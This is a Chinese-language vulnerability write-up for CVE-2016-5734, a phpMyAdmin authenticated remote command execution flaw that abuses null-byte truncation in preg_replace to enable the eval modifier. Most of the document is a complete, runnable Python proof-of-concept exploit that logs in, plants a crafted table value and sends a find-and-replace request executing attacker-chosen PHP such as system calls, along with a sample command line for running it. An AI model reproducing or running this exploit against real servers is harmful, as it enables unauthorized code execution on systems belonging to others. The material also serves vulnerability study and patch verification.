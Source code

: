 （CVE-2016-5734）Phpmyadmin 后台远程命令执行漏洞
================================================

一、漏洞简介
------------

在PHP5.4.7以前，preg\_replace的第一个参数可以利用\\0进行截断，并将正则模式修改为e。众所周知，e模式的正则支持执行代码，此时将可构造一个任意代码执行漏洞。

二、漏洞影响
------------

4.0.10.16之前4.0.x版本4.4.15.7之前4.4.x版本4.6.3之前4.6.x版本（实际上由于该版本要求PHP5.5+，所以无法复现本漏洞）

三、复现过程
------------

这个功能需要登录，且能够写入数据。

因为目标环境使用root，所以我们可以创建一个临时数据库和数据表，进行漏洞利用。这里，我们使用POC来复现漏洞。

    ./cve-2016-5734.py -c 'system(id);' -u root -p root -d test http://www.0-sec.org:8080/

![VS4QW3R595\~78N763.png](./resource/(CVE-2016-5734)Phpmyadmin后台远程命令执行漏洞/media/rId24.png)

-d是已经可以写的数据库，-c是待执行的PHP语句，如果没有指定表名，这个POC会创建一个名为`prgpwn`的表。

### poc

    #!/usr/bin/env python

    """cve-2016-5734.py: PhpMyAdmin 4.3.0 - 4.6.2 authorized user RCE exploit
    Details: Working only at PHP 4.3.0-5.4.6 versions, because of regex break with null byte fixed in PHP 5.4.7.
    CVE: CVE-2016-5734
    Author: https://twitter.com/iamsecurity
    run: ./cve-2016-5734.py -u root --pwd="" http://localhost/pma -c "system('ls -lua');"
    """

    import requests
    import argparse
    import sys

    __author__ = "@iamsecurity"

    if __name__ == '__main__':
        parser = argparse.ArgumentParser()
        parser.add_argument("url", type=str, help="URL with path to PMA")
        parser.add_argument("-c", "--cmd", type=str, help="PHP command(s) to eval()")
        parser.add_argument("-u", "--user", required=True, type=str, help="Valid PMA user")
        parser.add_argument("-p", "--pwd", required=True, type=str, help="Password for valid PMA user")
        parser.add_argument("-d", "--dbs", type=str, help="Existing database at a server")
        parser.add_argument("-T", "--table", type=str, help="Custom table name for exploit.")
        arguments = parser.parse_args()
        url_to_pma = arguments.url
        uname = arguments.user
        upass = arguments.pwd
        if arguments.dbs:
            db = arguments.dbs
        else:
            db = "test"
        token = False
        custom_table = False
        if arguments.table:
            custom_table = True
            table = arguments.table
        else:
            table = "prgpwn"
        if arguments.cmd:
            payload = arguments.cmd
        else:
            payload = "system('uname -a');"

        size = 32
        s = requests.Session()
        # you can manually add proxy support it's very simple ;)
        # s.proxies = {'http': "127.0.0.1:8080", 'https': "127.0.0.1:8080"}
        s.verify = False
        sql = '''CREATE TABLE `{0}` (
          `first` varchar(10) CHARACTER SET utf8 NOT NULL
        ) ENGINE=InnoDB DEFAULT CHARSET=latin1;
        INSERT INTO `{0}` (`first`) VALUES (UNHEX('302F6500'));
        '''.format(table)

        # get_token
        resp = s.post(url_to_pma + "/?lang=en", dict(
            pma_username=uname,
            pma_password=upass
        ))
        if resp.status_code is 200:
            token_place = resp.text.find("token=") + 6
            token = resp.text[token_place:token_place + 32]
        if token is False:
            print("Cannot get valid authorization token.")
            sys.exit(1)

        if custom_table is False:
            data = {
                "is_js_confirmed": "0",
                "db": db,
                "token": token,
                "pos": "0",
                "sql_query": sql,
                "sql_delimiter": ";",
                "show_query": "0",
                "fk_checks": "0",
                "SQL": "Go",
                "ajax_request": "true",
                "ajax_page_request": "true",
            }
            resp = s.post(url_to_pma + "/import.php", data, cookies=requests.utils.dict_from_cookiejar(s.cookies))
            if resp.status_code == 200:
                if "success" in resp.json():
                    if resp.json()["success"] is False:
                        first = resp.json()["error"][resp.json()["error"].find("<code>")+6:]
                        error = first[:first.find("</code>")]
                        if "already exists" in error:
                            print(error)
                        else:
                            print("ERROR: " + error)
                            sys.exit(1)
        # build exploit
        exploit = {
            "db": db,
            "table": table,
            "token": token,
            "goto": "sql.php",
            "find": "0/e\0",
            "replaceWith": payload,
            "columnIndex": "0",
            "useRegex": "on",
            "submit": "Go",
            "ajax_request": "true"
        }
        resp = s.post(
            url_to_pma + "/tbl_find_replace.php", exploit, cookies=requests.utils.dict_from_cookiejar(s.cookies)
        )
        if resp.status_code == 200:
            result = resp.json()["message"][resp.json()["message"].find("</a>")+8:]
            if len(result):
                print("result: " + result)
                sys.exit(0)
            print(
                "Exploit failed!\n"
                "Try to manually set exploit parameters like --table, --database and --token.\n"
                "Remember that servers with PHP version greater than 5.4.6"
                " is not exploitable, because of warning about null byte in regexp"
            )
            sys.exit(1)
